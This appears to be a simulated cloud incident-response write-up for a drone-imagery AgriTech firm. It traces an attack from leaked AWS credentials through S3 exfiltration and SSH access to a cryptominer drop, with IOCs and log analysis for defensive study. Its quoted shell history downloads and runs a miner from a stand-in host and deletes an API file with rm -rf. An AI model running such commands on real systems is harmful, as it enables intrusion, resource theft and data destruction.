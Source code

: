 # DroneCropForensics – Deep-Dive Investigation Notes

---

## Initial Discovery & Context

During routine threat hunting across public repositories, a critical security incident was simulated involving an AgriTech startup leveraging drone technology to capture and process aerial crop imagery.

A `.env` file containing hardcoded AWS credentials was accidentally committed to a developer’s GitHub repository and remained exposed long enough to be harvested by an opportunistic threat actor.

This incident simulation explores the full kill chain — from credential exposure to cloud compromise, data exfiltration, and service disruption.

The logs were collected from AWS CloudTrail, EC2 SSH sessions, shell command history, and internal drone API access logs to reconstruct the sequence of attacker actions.

---

## Indicators of Compromise (IOCs)

| Indicator              | Type       | Description                               |
|------------------------|------------|-------------------------------------------|
| `91.203.119.5`         | IP Address | Attacker’s origin IP used for API and SSH access |
| `AKIA1234FAKEKEYYO`    | AWS Key    | Leaked AWS secret key (redacted)         |
| `dronecrop-images`     | S3 Bucket  | Targeted for crop data exfiltration       |
| `/var/www/html/api/upload.php` | File Path  | API endpoint deleted by attacker          |
| `cryptominer.tar.gz`   | Artifact   | Suspected malware dropped onto EC2        |

---

## Log Analysis Summary

### 1. `aws_cloudtrail.log`

This log revealed unauthorized usage of AWS APIs by a rogue user (`h4ck3r`) from IP `91.203.119.5`:

- **`GetObject`** events on the `dronecrop-images` S3 bucket confirm the adversary successfully exfiltrated sensitive agricultural imagery.

- **`DescribeInstances`** and **`StartInstances`** calls indicate enumeration of EC2 instances and remote activation of a dormant node — a precursor to interactive access via SSH.

These events clearly align with **stage 2: cloud enumeration** and **stage 3: privilege abuse** in the MITRE ATT&CK cloud matrix.

---

### 2. `auth.log`

The SSH authentication log shows a successful key-based login from the attacker’s IP. The use of public key auth suggests the attacker may have injected their key into the instance via the AWS control plane after compromise.

- **Login timestamp:** 2025-07-12 05:07 UTC

- **Session opened using root-level key for user `ubuntu`**

- **Session duration:** ~4 minutes

This session created the foothold necessary for persistent backdoor access and payload delivery.

---

### 3. `shell_history.log`

Shell commands executed during the session confirm execution of a mining payload:

```bash
wget http://badsite.example.com/cryptominer.tar.gz
tar -xvzf cryptominer.tar.gz
cd miner
chmod +x run.sh
./run.sh
rm -rf /var/www/html/api/upload.php
